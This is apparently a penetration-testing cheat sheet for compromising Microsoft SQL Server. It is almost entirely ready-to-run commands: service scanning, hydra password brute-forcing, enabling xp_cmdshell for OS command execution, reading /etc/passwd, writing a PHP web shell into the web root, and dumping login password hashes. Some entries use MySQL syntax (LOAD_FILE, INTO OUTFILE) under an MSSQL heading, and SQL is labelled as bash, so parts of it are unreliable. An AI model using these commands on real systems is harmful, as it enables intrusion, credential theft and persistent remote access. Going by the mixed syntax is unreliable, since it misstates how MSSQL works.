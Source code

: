 # MSSQL Enumeration (1433)

## Run nmap MSSQL scripts
```bash
nmap --script=ms-sql-* -p 1433 $IP
```

## Scan for MSSQL Browser service
```bash
nmap -sU -p 1434 $IP
```

## Connect with impacket-mssqlclient
```bash
# Anonymous, SQL auth sa:password@IP, OR domain.local/user:pass@IP -windows-auth
impacket-mssqlclient sa:password@$IP
```

## Brute force MSSQL with hydra
```bash
hydra -L /usr/share/wordlists/seclists/Usernames/top-usernames-shortlist.txt -P /usr/share/wordlists/rockyou.txt $IP mssql
```

## Enable xp_cmdshell from SQL prompt
```bash
EXEC sp_configure 'show advanced options', 1; RECONFIGURE; EXEC sp_configure 'xp_cmdshell', 1; RECONFIGURE;
```

## Execute commands with xp_cmdshell
```bash
EXEC xp_cmdshell 'whoami';
```

## Read file with LOAD_FILE
```bash
SELECT LOAD_FILE('/etc/passwd');
```

## Write web shell to disk
```bash
SELECT '<?php system($_GET["cmd"]); ?>' INTO OUTFILE '/var/www/html/shell.php';
```

## Dump password hashes from mssql
```bash
SELECT name, password_hash FROM sys.sql_logins;
```

